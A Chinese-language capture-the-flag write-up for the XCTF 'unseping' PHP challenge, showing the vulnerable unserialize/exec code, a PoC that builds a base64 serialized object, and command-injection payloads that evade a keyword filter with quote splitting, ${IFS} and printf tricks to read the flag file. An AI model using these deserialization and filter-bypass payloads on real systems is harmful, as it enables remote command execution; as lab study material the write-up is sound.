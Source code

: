 ```yaml
---
title: unseping题解
categories: WebSec
tags:
- php
- XCTF
---
```


反序列化的执行过程

```php
<?php
highlight_file(__FILE__);

class ease{
    
    private $method;
    private $args;
    function __construct($method, $args) {
        $this->method = $method;
        $this->args = $args;
    }
 
    function __destruct(){
        if (in_array($this->method, array("ping"))) {
            call_user_func_array(array($this, $this->method), $this->args);
        }
    } 
 
    function ping($ip){
        exec($ip, $result);
        var_dump($result);
    }

    function waf($str){
        if (!preg_match_all("/(\||&|;| |\/|cat|flag|tac|php|ls)/", $str, $pat_array)) {
            return $str;
        } else {
            echo "don't hack";
        }
    }
 
    function __wakeup(){
        foreach($this->args as $k => $v) {
            $this->args[$k] = $this->waf($v);
        }
    }   
}

$ctf=@$_POST['ctf'];
@unserialize(base64_decode($ctf));
?>
```

# 执行过程
闯入一个序列化的val，如何执行呢？
First: base64_encode()  
Second: wakeup()  
Third: _destruct() ---析构函数

# write Poc
```php
<?php
class ease{
private $method;
private $args;
function __construct($method, $args) {
    $this->method = $method;
    $this->args = $args;
}
  
}
$a = new ease("ping",array("l''s"));
$b = serialize($a);
echo $b;
echo'</br>';
echo base64_encode($b);
?>
```
Tzo0OiJlYXNlIjoyOntzOjEyOiIAZWFzZQBtZXRob2QiO3M6NDoicGluZyI7czoxMDoiAGVhc2UAYXJncyI7YToxOntpOjA7czo0OiJsJydzIjt9fQ==

![](https://img2023.cnblogs.com/blog/3014598/202212/3014598-20221210210051910-490828453.png)
发现有个flag is here的folder
用${IFS}绕过空格  
用"绕过变量
> payload

l""s${IFS}f""lagishere

看文件如何绕过

c""at${IFS}f""lag_1s_here$(printf${IFS}"\57")f""lag_831b69012c67b35f.p""hp

flag，cat，flag，php都可以用双引号绕过，空格用${IFS}绕过，/要用printf及$()绕过。令
Tzo0OiJlYXNlIjoyOntzOjEyOiIAZWFzZQBtZXRob2QiO3M6NDoicGluZyI7czoxMDoiAGVhc2UAYXJncyI7YToxOntpOjA7czo3NDoiYyIiYXQke0lGU31mIiJsYWdfMXNfaGVyZSQocHJpbnRmJHtJRlN9Ilw1NyIpZiIibGFnXzgzMWI2OTAxMmM2N2IzNWYucCIiaHAiO319

## Flag
array(2) { [0]=> string(5) " string(47) "//$cyberpeace{b38c7d1e16dfaac1577795c0ccc558b7}" } 